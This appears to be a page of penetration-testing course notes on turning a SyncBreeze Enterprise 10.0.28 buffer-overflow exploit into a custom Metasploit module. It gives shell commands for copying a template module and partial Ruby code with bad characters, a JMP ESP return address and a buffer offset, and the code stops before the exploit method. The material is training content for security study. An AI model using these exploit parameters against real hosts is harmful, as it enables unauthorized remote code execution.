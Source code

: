 Copy .rb with a descriptive name inside /usr/share/metasploit-framework/modules/exploits.

## Building our own MSF Module

{% code overflow="wrap" %}
```bash
#CREATE A TEMPLATE FOR THE EXPLOIT SYNC BREEZE USING DISK PULSE
sudo mkdir -p /root/.msf4/modules/exploits/windows/http
sudo cp /usr/share/metasploit-framework/modules/exploits/windows/http/disk_pulse_enterprise_get.rb /root/.msf4/modules/exploits/windows/http/syncbreeze.rb 
kali@kali:~/.msf4/modules/exploits/windows/http$ sudo nano /root/.msf4/modules/exploits/windows/http/syncbreeze.rb
```
{% endcode %}

Exploit in Ruby. We update the header information, EXITFUNC, badchars, Ret, Offset, uri, product\_name to contain the version of the product, uri to exploit and the username with the buffer.

{% code overflow="wrap" %}
```ruby
##
# This module requires Metasploit: http://metasploit.com/download 
# Current source: https://github.com/rapid7/metasploit-framework 
##

class MetasploitModule < Msf::Exploit::Remote 
    Rank = ExcellentRanking 
    include Msf::Exploit::Remote::HttpClient

    def initialize(info = {}) 
        super(update_info(info, 
            'Name' => 'SyncBreeze Enterprise Buffer Overflow', 
            'Description' => %q( 
                This module ports our python exploit of SyncBreeze Enterprise 10.0.28 to MSF. ), 
            'License' => MSF_LICENSE, 
            'Author' => [ 'Offensive Security', 'offsec' ], 
            'References' => 
                [ 
                    [ 'EDB', '42886' ]
                ], 
            'DefaultOptions' => 
                { 
                    'EXITFUNC' => 'thread' 
                }, 
            'Platform' => 'win', 
            'Payload' => 
                { 
                    'BadChars' => "\x00\x0a\x0d\x25\x26\x2b\x3d", 
                    'Space' => 500 
                }, 
            'Targets' => 
                [ 
                    [ 'SyncBreeze Enterprise 10.0.28', 
                        { 
                            'Ret' => 0x10090c83, # JMP ESP -- libspp.dll 
                            'Offset' => 780 
                        }] 
                ], 
            'Privileged' => true, 
            'DisclosureDate' => 'Oct 20 2019', 
            'DefaultTarget' => 0))
        
        register_options([Opt::RPORT(80)]) 
    end 
    
```